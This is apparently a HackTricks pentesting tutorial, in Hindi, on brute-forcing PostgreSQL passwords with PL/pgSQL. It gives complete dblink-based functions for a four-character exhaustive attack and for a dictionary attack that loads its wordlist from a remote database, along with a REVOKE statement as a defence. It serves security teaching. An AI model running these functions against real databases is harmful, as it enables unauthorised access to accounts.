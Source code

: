 # PL/pgSQL पासवर्ड ब्रूटफोर्स

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का हैकट्रिक्स में विज्ञापित करना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या हैकट्रिक्स को पीडीएफ में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह।
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स रेपो** में पीआर जमा करके [**हैकट्रिक्स रेपो**](https://github.com/carlospolop/hacktricks) **और** [**हैकट्रिक्स-क्लाउड रेपो**](https://github.com/carlospolop/hacktricks-cloud) **को**।

</details>

**इस हमले के बारे में अधिक जानकारी के लिए [मूल पेपर में जाएं](http://www.leidecker.info/pgshell/Having\_Fun\_With\_PostgreSQL.txt)**.

PL/pgSQL एक **पूरी विशेषताएँ वाली प्रोग्रामिंग भाषा** है जो SQL की क्षमताओं को बढ़ाकर **प्रक्रियात्मक नियंत्रण** प्रदान करती है। इसमें लूप्स और विभिन्न नियंत्रण संरचनाएँ शामिल हैं। PL/pgSQL भाषा में बनाए गए फ़ंक्शन SQL वाक्यों और ट्रिगर्स द्वारा आह्वान किए जा सकते हैं, जिससे डेटाबेस वातावरण में कार्रवाई की व्याप्ति बढ़ जाती है।

आप इस भाषा का दुरुपयोग करके PostgreSQL से उपयोगकर्ताओं के क्रेडेंशियल्स को ब्रूटफ़ोर्स करने के लिए इस्तेमाल कर सकते हैं, लेकिन यह डेटाबेस पर मौजूद होना चाहिए। आप इसकी मौजूदगी की जांच कर सकते हैं:
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+---------
plpgsql |
```
डिफ़ॉल्ट रूप से, **फ़ंक्शन बनाना एक विशेषाधिकार है जो सार्वजनिक को प्रदान किया गया है**, जहां सार्वजनिक उस डेटाबेस सिस्टम पर हर उपयोगकर्ता को संदर्भित करता है। इसे रोकने के लिए, प्रशासक को सार्वजनिक डोमेन से USAGE विशेषाधिकार वापस लेना पड़ सकता था:
```sql
REVOKE ALL PRIVILEGES ON LANGUAGE plpgsql FROM PUBLIC;
```
उस मामले में, हमारा पिछला क्वेरी विभिन्न परिणाम निकालेगा:
```sql
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql';
lanname | lanacl
---------+-----------------
plpgsql | {admin=U/admin}
```
नोट करें कि निम्नलिखित स्क्रिप्ट काम करने के लिए **फ़ंक्शन `dblink` मौजूद होना चाहिए**। अगर यह मौजूद नहीं है तो आप इसे निम्नलिखित के साथ बनाने की कोशिश कर सकते हैं।
```sql
CREATE EXTENSION dblink;
```
## पासवर्ड ब्रूट फोर्स

यहाँ ऐसे कैसे कर सकते हैं कि आप 4 वर्णों का पासवर्ड ब्रूट फोर्स कर सकते हैं:
```sql
//Create the brute-force function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
DECLARE
word TEXT;
BEGIN
FOR a IN 65..122 LOOP
FOR b IN 65..122 LOOP
FOR c IN 65..122 LOOP
FOR d IN 65..122 LOOP
BEGIN
word := chr(a) || chr(b) || chr(c) || chr(d);
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;
EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection
THEN
-- do nothing
END;
END LOOP;
END LOOP;
END LOOP;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql';

//Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
_ध्यान दें कि 4 वर्णों का ब्रूट फोर्सिंग कई मिनट ले सकता है।_

आप भी **एक शब्द सूची डाउनलोड** कर सकते हैं और केवल उन पासवर्ड की कोशिश कर सकते हैं (शब्दकोश हमला):
```sql
//Create the function
CREATE OR REPLACE FUNCTION brute_force(host TEXT, port TEXT,
username TEXT, dbname TEXT) RETURNS TEXT AS
$$
BEGIN
FOR word IN (SELECT word FROM dblink('host=1.2.3.4
user=name
password=qwerty
dbname=wordlists',
'SELECT word FROM wordlist')
RETURNS (word TEXT)) LOOP
BEGIN
PERFORM(SELECT * FROM dblink(' host=' || host ||
' port=' || port ||
' dbname=' || dbname ||
' user=' || username ||
' password=' || word,
'SELECT 1')
RETURNS (i INT));
RETURN word;

EXCEPTION
WHEN sqlclient_unable_to_establish_sqlconnection THEN
-- do nothing
END;
END LOOP;
RETURN NULL;
END;
$$ LANGUAGE 'plpgsql'

-- Call the function
select brute_force('127.0.0.1', '5432', 'postgres', 'postgres');
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं**? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) की जाँच करें!
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** **🐦**[**@carlospolopm**](https://twitter.com/hacktricks_live)** पर** **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud)।

</details>
